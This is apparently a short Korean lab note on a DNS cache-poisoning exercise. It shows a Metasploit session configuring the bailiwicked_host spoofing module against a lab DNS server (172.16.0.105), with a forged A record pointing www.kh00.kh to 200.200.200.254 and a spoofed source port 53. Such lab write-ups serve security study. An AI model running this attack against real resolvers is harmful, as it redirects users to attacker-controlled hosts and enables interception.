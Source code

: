 # DNS Attack

<br>

구성도

![2022-10-04-01구성도](../images/2022-10-04-DNSAttack/2022-10-04-01구성도.jpg)

<br>

Kali -> Attack

![2022-10-04-03공격](../images/2022-10-04-DNSAttack/2022-10-04-03공격.jpg)

![2022-10-04-02공격](../images/2022-10-04-DNSAttack/2022-10-04-02공격.jpg)

```
msf6 auxiliary(spoof/dns/bailiwicked_host) > set hostname www.kh00.kh
hostname => www.kh00.kh (A 레코드 문자열)
msf6 auxiliary(spoof/dns/bailiwicked_host) > set NEWADDR 200.200.200.254
NEWADDR => 200.200.200.254 (A 레코드 IP주소)
msf6 auxiliary(spoof/dns/bailiwicked_host) > set RHOST 172.16.0.105 (공격대상 DNS)
RHOST => 172.16.0.105
msf6 auxiliary(spoof/dns/bailiwicked_host) > set srcport 53 (root hint 인척) 
srcport => 53
```

<br>

